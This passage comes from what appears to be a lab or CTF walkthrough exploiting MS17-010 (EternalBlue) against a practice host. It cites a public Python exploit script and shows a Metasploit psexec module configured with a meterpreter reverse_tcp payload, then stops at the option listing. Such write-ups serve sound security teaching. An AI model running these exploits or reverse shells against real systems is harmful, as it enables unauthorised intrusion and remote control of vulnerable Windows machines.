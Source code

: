 
----

## Automated Python3 script. https://github.com/n3rdh4x0r/MS17-010

```
python3 exploit.py 10.10.10.4
```

![Pasted image 20250312115544](https://github.com/user-attachments/assets/9e38f8ad-359d-4d55-b427-8a09526e5480)


##  Exploiting MS17-010 Using Metasploit

Let's use metasploit to get the shell. 

```
┌──(kali㉿kali)-[~/exploit]
└─$ sudo msfconsole -q                 
msf6 > use windows/smb/ms17_010_psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_psexec) > show options

Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting                                                 Required  Description
   ----                  ---------------                                                 --------  -----------
   DBGTRACE              false                                                           yes       Show extra debug trace info
   LEAKATTEMPTS          99                                                              yes       How many times to try to leak transaction
   NAMEDPIPE                                                                             no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   RHOSTS                                                                                yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT                 445                                                             yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                                                   no        Service description to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                                  no        The service display name
   SERVICE_NAME                                                                          no        The service name
   SHARE                 ADMIN$                                                          yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                                                               no        The Windows domain to use for authentication
   SMBPass                                                                               no        The password for the specified username
   SMBUser                                                                               no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.0.2.15        yes       The listen address (an interface may be specified)
```